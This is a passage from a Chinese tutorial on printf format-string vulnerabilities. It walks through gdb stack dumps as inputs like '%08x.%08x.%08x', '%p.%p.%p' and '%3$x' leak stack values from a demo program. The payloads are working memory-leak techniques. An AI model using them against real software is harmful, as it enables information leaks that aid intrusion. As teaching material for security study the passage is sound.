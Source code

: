 ```assembly
0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax # "%08x.%08x.%08x" 的首地址
0xffffcd14│+0x18: ".%08x.%08x"
0xffffcd18│+0x1c: "x.%08x"
> c # continue # 输出以下内容后退出 [Inferior 1 (process 57077) exited normally]
ffffcd10.000000c2.f7e8b6bb  # 这里泄露的是栈上的内存
```

- 如果换成`%p.%p.%p`，则输入输出为：

```python
%p.%p.%p # 输入
00000001.22222222.ffffffff.%p.%p.%p # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出
0xfff328c0.0xc2.0xf75c46bb # printf(s); 的输出
```

- 并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的
- 获取**栈中被视为第 n+1 个参数的值**：(格式化参数里面的 n 指的是该格式化字符串对应的第 n 个输出参数，相对于输出函数来说，是第 n+1 个参数)

```c
printf("%3$x"); // 获取对于printf函数来说，视为第4个参数的值  //  %2$s 将栈上第3个参数作为字符串输出
```
- 输入为`%3$x`时的栈，输出：
```assembly
$ gdb leakmemory
>  b printf
>  r
%3$x # 输入
────────────────────────────────────────[ stack ]──── # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的栈
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s" # format string
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
>  r
00000001.22222222.ffffffff.%3$x # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出
─────────────────────────────────────────────────────[ stack ]──── # printf(s); 的栈
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%3$x" # 将会输出对应format string来说第3个参数，相对于printf来说是第4个参数
0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10 # 将会被输出的内容 !!! # printf's parameter 4  !!!!!!
0xffffcd10│+0x14: "%3$x"     ← $eax
0xffffcd14│+0x18: 0xffffce00  →  0x00000001
0xffffcd18│+0x1c: 0x000000e0
>  c  # 输出后退出 [Inferior 1 (process 57442) exited normally]
f7e8b6bb # 输出的内容为 0xffffcd0c│+0x10: 0xf7e8b6bb 即esp+0x10 为printf的第4个参数 # 确实获得 printf 第 4 个参数所对应的值 f7e8b6bb
```
